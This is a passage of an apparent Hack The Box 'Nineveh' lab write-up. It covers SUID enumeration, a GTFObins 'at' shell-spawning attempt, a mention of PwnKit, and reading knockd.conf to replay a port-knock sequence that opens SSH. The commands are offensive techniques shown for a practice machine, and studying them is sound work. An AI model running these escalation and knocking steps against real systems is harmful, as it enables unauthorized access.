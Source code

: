 <br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Once I perform a **User pivoting**, I can now access the contents of the first flag and look for an attack vector to escalate privileges. I find that the **Polkit’s** `pkexec` tool has **SUID** permissions and is most likely vulnerable to **[PwnKit](https://github.com/ly4k/PwnKit){:target="_blank"}**, but I will look for the intended path for this machine. There is another binary, `at`, that I found suspicious but when looking for a command in **[GTFObins](https://gtfobins.github.io/gtfobins/at/#shell){:target="_blank"}** to get a **Shell**, I am unable to escalate privileges. I also find with `ps` the **knockd** daemon enabled, which indicates that **[Port Knocking](https://www.howtogeek.com/442733/how-to-use-port-knocking-on-linux-and-why-you-shouldnt/){:target="_blank"}** is being used on this machine. In the **knockd.conf** file I find the sequence of ports that I must touch to enable the **SSH** service remotely, so I **[install `knock`](https://fzuckerman.wordpress.com/2016/10/08/golpeos-de-puertos-en-kali-linux-port-knocking/){:target="_blank"}** on my attacker machine to enable the **SSH** port of the victim machine and access it, this way I succeed in persistence.

> **[knockd](https://linux.die.net/man/1/knockd){:target="_blank"}** is a port-knock server. It listens to all traffic on an ethernet (or PPP) interface, looking for special **"knock"** sequences of port-hits. A client makes these port-hits by sending a **TCP** (or **UDP**) packet to a port on the server.

> **Victime Machine**:

```bash
find \-perm -4000 2>/dev/null
ls -l ./usr/bin/at

echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
whoami

sudo -l
netstat -nat
ps -faux
# /usr/sbin/knockd -d -i ens160

cat /etc/knockd.conf
# sequence = 571, 290, 911
```

> **Attacker Machine**:

```bash
nmap -sT -v -p22 -n 10.10.10.43
# 22/tcp filtered ssh

locate knock
sudo apt-get install knockd
knock --help
knock 10.10.10.43 571:tcp 290:tcp 911:tcp -d 500
nmap -sT -v -p22 -n 10.10.10.43
```
